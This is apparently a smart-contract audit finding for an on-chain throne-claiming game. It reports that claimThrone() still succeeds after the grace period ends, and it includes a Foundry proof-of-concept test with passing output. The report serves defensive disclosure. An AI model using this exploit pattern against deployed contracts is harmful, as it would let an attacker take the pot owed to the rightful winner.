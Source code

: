 **Likelihood**: High
- This absence of proper state management within the contract allows every attempt to claim the throne to succeed after the period expires, as long as `declareWinner()` hasn't been called yet

**Impact**: High
- **Violation of Promised Rewards and Game Logic**: Players who should rightfully win after the grace period may be overtaken, breaking the protocol’s core assumption that the last king within the grace period is the winner.
- **Player Financial Loss**: The rightful winner loses access to the accumulated pot, resulting in tangible economic harm and undermining trust in the fairness of the game.


#### Proof of Concept
Add the following test, then run this command: `forge test -vv --match-test testClaimThroneAlthoughExpired`

```solidity
function testClaimThroneAlthoughExpired() public {
    console2.log("player1 claims the throne");
    uint256 claimFee = game.claimFee();
    vm.prank(player1);
    game.claimThrone{value: claimFee}();

    console2.log("Wait for grace period to expire");
    skip(GRACE_PERIOD + 1);
    console2.log("Remaining time: ", game.getRemainingTime());

    claimFee = game.claimFee();
    vm.prank(player2);
    game.claimThrone{value: claimFee}();
    console2.log("player2 successfully claims the throne although grace period has expired");
}
```

PoC Results:
```
forge test -vv --match-test testClaimThroneAlthoughExpired
[⠊] Compiling...
[⠔] Compiling 1 files with Solc 0.8.29
[⠒] Solc 0.8.29 finished in 473.13ms
Compiler run successful!

Ran 1 test for test/Game.t.sol:GameTest
[PASS] testClaimThroneAlthoughExpired() (gas: 206162)
Logs:
  player1 claims the throne
  Wait for grace period to expire
  Remaining time:  0
  player2 successfully claims the throne although grace period has expired

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.07ms (1.52ms CPU time)

Ran 1 test suite in 233.18ms (6.07ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
